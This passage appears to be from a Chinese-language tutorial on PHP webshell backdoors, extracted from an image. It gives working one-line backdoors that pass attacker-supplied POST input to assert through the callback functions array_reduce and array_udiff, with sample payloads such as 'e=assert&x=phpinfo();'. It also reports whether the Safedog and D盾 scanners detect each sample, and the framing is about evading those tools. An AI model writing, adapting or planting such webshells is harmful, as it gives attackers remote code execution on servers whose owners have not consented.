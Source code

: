 ```php
<?php
    $e = $_REQUEST['e'];
    $arr = array(1);
    array_reduce($arr, $e, $_POST['x']);
?>
    
<?php
    function sqlsec($value,$key)
    {   
        $x = $key.$value;
        print_r($x);
        $x($_POST['x']);
    }
    $a=array("assert");
    array_reduce($a,"sqlsec");
?>
```

POST 提交如下数据：`e=assert&x=phpinfo();` 但是目前已经无法过狗了。

| 安全狗                        | D盾             |
| :---------------------------- | :-------------- |
| 1 个安全风险 array_reduce执行 | 级别 5 已知后门 |

#### array_udiff()

```php
array_diff(array1,array2,myfunction...);
```

array_diff() 函数返回两个数组的差集数组。该数组包括了所有在被比较的数组中，但是不在任何其他参数数组中的键值。在返回的数组中，键名保持不变。

| 参数       | 描述                                   |
| :--------- | :------------------------------------- |
| *array1*   | 必需。与其他数组进行比较的第一个数组。 |
| *array2*   | 必需。与第一个数组进行比较的数组。     |
| myfunction | 回调对照函数。                         |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['x']);
    $arr2 = array(1);
    array_udiff($arr, $arr2, $e);
?>
```

POST 提交如下数据：`e=assert&x=phpinfo();` 但是目前已经无法过狗。

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |
